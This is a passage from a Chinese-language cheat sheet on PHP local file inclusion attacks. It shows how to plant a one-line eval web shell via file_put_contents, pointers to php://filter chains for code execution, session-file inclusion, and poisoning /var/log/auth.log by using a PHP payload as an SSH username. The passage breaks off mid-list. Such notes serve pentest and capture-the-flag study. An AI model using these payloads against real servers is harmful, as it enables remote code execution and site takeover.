         xxxxxxx //内容大些，方便竞争
        -----------------------------98981640141151965391250570390--
        
        ```

#### file_put_contents函数

该函数常于文件包含漏洞相关，通过写入指定文件，然后包含该文件，获取webshell

**file_put_contents**(
  string `$filename`,
  mixed `$data`,
  int `$flags` = 0,
  resource `$context`)

```
filename	   要被写入数据的文件名
data		要写入的数据。类型可以是 string，array 或者是 stream 资源( data 指定为 stream 资源，这里 stream 中所保存的缓存数据将被写入到指定文件中)

file_put_contents("shell.php",'<?php eval($_POST["cmd"]);?>')
```



#### 包含某些特定文件

- **利用php://filter/的各种编码直接rce**

    - > https://articles.zsxq.com/id_wx85v4auoqam.html
        >
        > https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT

    * 


* 包含session

  * 利用条件：session文件路径已知，且其中内容部分可控。
  * linux下session的默认路径是/tmp目录。
  * 该文件的意义见session.upload_progress函数处

    ```
    session文件名的构造是sess_   +  sessionid    ，  sessionid在cookie中可以查看
    
    有些时候，可以先包含session文件，观察里面的内容，然后根据里面的字段来发现可控的变量，从而利用变量来写入payload，并之后再次包含从而执行php代码。
    ```

* ssh log

  * 该文件记录ssh的访问日志
  * 利用条件：需要知道ssh-log的位置，且可读。默认情况下为 /var/log/auth.log
  * 执行命令

    ```
    ssh '<?php phpinfo(); ?>'@remotehost
    ```
  
* 包含environ
